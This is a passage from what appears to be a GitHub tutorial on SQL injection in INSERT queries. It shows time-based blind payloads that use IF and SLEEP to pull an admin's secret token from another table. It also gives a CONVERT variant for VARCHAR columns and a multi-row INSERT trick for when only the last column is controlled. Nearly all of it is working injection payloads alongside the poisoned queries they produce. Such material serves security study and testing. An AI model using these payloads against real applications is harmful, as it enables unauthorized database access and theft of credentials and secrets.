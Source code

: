 > We can't execute sub query on the same table and extract the data.

Hence, let's extract data from another table.

```
# target of extraction: token => INT column of tbl_secret()
# table used in the query: tbl_post02()
# structure: `comment` => VARCHAR, pin => INT, `age` => INT, user => VARCHAR
# attacker controls the comment column

query = INSERT INTO tbl_post02() VALUES('hello', 100, 22, 'anonymous');
payload = blah', (IF((SELECT token from tbl_secret WHERE user = 'admin') = 777, sleep(10), 2)), 0, 'anonymous')#

poisoned query =  INSERT INTO tbl_post02() VALUES('blah', (IF((SELECT token from tbl_secret WHERE user = 'admin') = 777, sleep(10), 99)), 66, 'anonymous')#', 100, 22, 'anonymous');

# result
- if the token(i.e 777) matches then app sleeps (pauses) for the number of seconds given by the duration argument=10 then returns 0. this 0 gets inserted into the second column (pin) of tbl_post02().
- If SLEEP() is interrupted, it returns 1 and this 1 gets inserted.
- if the token(i.e 777) does matches then 2 gets inserted.
```

If second column is `VARCHAR` instead of `INT` then it generates error. To mitigate that use `CONVERT()` function.

```
query = INSERT INTO tbl_post03 (comment, city, age, user) VALUES ('hola', 'mountain view', 25, 'admin');
payload = blah', (SELECT CONVERT((IF((SELECT token from tbl_secret WHERE user = 'admin') = 777, sleep(10), 2)), CHAR)), 0, 'anonymous')#

poisoned query = INSERT INTO tbl_post03 (comment, city, age, user) VALUES ('blah', (SELECT CONVERT((IF((SELECT token from tbl_secret WHERE user = 'admin') = 777, sleep(10), 2)), CHAR)), 0, 'anonymous')#', 'mountain view', 25, 'admin');
```

#### Case 2: user controls the last or any other VARCHAR column other than the first column

* We can't directly put the payload into the last column because of the leading single quote character that ends the query.
* If we control the second column then we can place the payload either third or last column.
* If we control the last column i.e 'user' then we can to add two entries in one INSERT query and then place the payload either the first column / any column of the 2nd entry.

```
# target of extraction: token => INT column of tbl_secret()
# table used in the query: tbl_post02()
# structure: `comment` => VARCHAR, pin => INT, `age` => INT, user => VARCHAR
# attacker controls the user column

query = INSERT INTO tbl_post02() VALUES('hello', 100, 22, 'patrik');
payload = blah_user'),('blah', (IF((SELECT token from tbl_secret WHERE user = 'admin') = 777, sleep(10), 2)), 0, 'anonymous')#

poisoned query = INSERT INTO tbl_post02() VALUES('hello', 100, 22, 'blah_user'),('blah', (IF((SELECT token from tbl_secret WHERE user= 'admin') = 777, sleep(10), 2)), 0, 'anonymous')#');
```
